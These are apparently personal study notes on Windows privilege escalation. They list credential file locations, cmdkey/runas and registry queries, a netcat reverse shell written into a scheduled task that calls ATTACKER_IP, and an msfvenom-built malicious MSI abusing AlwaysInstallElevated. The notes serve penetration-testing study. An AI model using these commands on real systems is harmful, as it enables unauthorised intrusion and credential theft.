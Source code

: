# Windows Privilege Escalation 02

## Where to Investigate

### Unattended Installations

Look for the following unattended installation locations for stored credentials:

* C:\Unattend.xml
* C:\Windows\Panther\Unattend.xml
* C:\Windows\Panther\Unattend\Unattend.xml
* C:\Windows\system32\sysprep.inf
* C:\Windows\system32\sysprep\sysprep.xml

### PowerShell History

PowerShell history can be obtained by running the following in CMD

`%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

### Saved Credentials

Option to save credentials ont he system:

`cmdkey /list`

These can then be run as admin by running:

`runas /savecred /user:admin cmd.exe`

### IIS Configuration

Default config that may have saved passwords is web.config, which may be in the following locations:

* C:\inetpub\wwwroot\web.config
* C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

Strings in the file can then be obtained by running:

`type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString`

### From Software

Stored Putty credentials may be obtained by running:

`reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`

## Scheduled Tasks

Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or it's using a binary you can modify:

`schtasks /query /tn vulntask /fo list /v`

If current user is Run As User, then check file privileges:

`icacls c:\tasks\schtask.bat`

If current user is part of group that has full access, then the binary can be modified to spawn a reverse shell such as:

`C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat`

To open listener port on local machine: `nc -lvp 4444`

Then run following task to spawn shell: `C:\> schtasks /run /tn vulntask`

## AlwaysInstallElevated

MSI files may have higher privileges and requires following reg keys to be set:

* C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
* C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

If these are set, msfvenom can be used to spawn malicious msi:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.240.127 LPORT=LOCAL_PORT -f msi -o malicious.msi`

Then run following after msi file has been transfered to windows system:

`C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`

## Service Misconfigurations

Services are managed by the Service Control Manager (SCM). Each service has an associated executible that runs when the service starts. Service configuration can be seen by running:

`sc qc apphostsvc`

The privileges can be obtained by viewing the properties of the service. Services are stored in the registry under: `HKLM\SYSTEM\CurrentControlSet\Services\`

## Dangerous Privileges

## Vulnerable Software

## Tools